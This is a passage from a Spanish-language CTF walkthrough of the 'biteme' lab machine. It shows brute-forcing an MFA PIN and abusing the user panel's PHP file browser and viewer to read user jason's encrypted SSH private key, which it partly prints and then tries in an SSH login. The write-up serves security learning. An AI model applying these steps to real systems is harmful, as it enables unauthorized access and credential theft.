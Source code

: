         ![image](https://github.com/Esevka/CTF/assets/139042999/10d1e91a-11f6-4402-b16b-3e654fe5d5d7)

            ┌──(root㉿kali)-[/home/…/ctf/try_ctf/biteme/script]
            └─# python3 mfa_brute.py
            [+]Pin valido ----> 1414

        4)Una vez introducimos el pin valido(el pin es aleatorio va cambiando), obtenemos acceso al panel de usuario.


## Obtenemos acceso a la maquina.

-El panel de usuario nos muestra dos form.

  - File browser (utiliza la funcion scandir() de php para mostrarnos el contenido del directorio que le indiquemos)

    ![image](https://github.com/Esevka/CTF/assets/139042999/bf3baef3-9636-4d21-8c7c-f034db0c3dd5)

  - File viewer (utiliza la funcion file_get_contents() de php para mostrarnos el contenido del fichero que le indiquemos)

    ![image](https://github.com/Esevka/CTF/assets/139042999/c8548731-b40a-43e3-a370-facd0b2be54c)


-Analizando directorios, encontramos una id_rsa del usuario jason

![image](https://github.com/Esevka/CTF/assets/139042999/f350acf2-6b69-4262-950d-e337dc9d01eb)

  - Mostramos la id_rsa y nos la copiamos a nuestro equipo para intentar conectarnos por ssh como usuario jason

    ![image](https://github.com/Esevka/CTF/assets/139042999/94b5f2ce-34af-4f40-aa0b-23e5b53550b7)

        ┌──(root㉿kali)-[/home/…/ctf/try_ctf/biteme/content]
        └─# echo '-----BEGIN RSA PRIVATE KEY-----
        Proc-Type: 4,ENCRYPTED
        DEK-Info: AES-128-CBC,983BDF3BE962B7E88A5193CD1551E9B9
        
        nspZgFs2AHTCqQUdGbA0reuNel2jMB/3yaTZvAnqYt82m6Kb2ViAqlFtrvxJUTkx
        [...]
        xibeJfxvGyw0mp2eGebQDM5XiLhB0jI4wtVlvkUpd+smws03mbmYfT4ghwCyM1ru
        VpKcbfvlpUuMb4AH1KN0ifFJ0q3Te560LYc7QC44Y1g41ZmHigU7YOsweBieWkY2
        -----END RSA PRIVATE KEY-----' > id_rsa 
                                                                                                                                                            
        ┌──(root㉿kali)-[/home/…/ctf/try_ctf/biteme/content]
        └─# chmod 400 id_rsa 

      Nos intentamos conectar con la id_rsa pero nos pide la clave de esta

        ┌──(root㉿kali)-[/home/…/ctf/try_ctf/biteme/content]
        └─# ssh jason@10.10.191.13 -i id_rsa
        The authenticity of host '10.10.191.13 (10.10.191.13)' can't be established.
        ED25519 key fingerprint is SHA256:3NvL4FLmtivo46j76+yqa43LcYEB79JAUuXUAYQe/zI.
        Enter passphrase for key 'id_rsa':
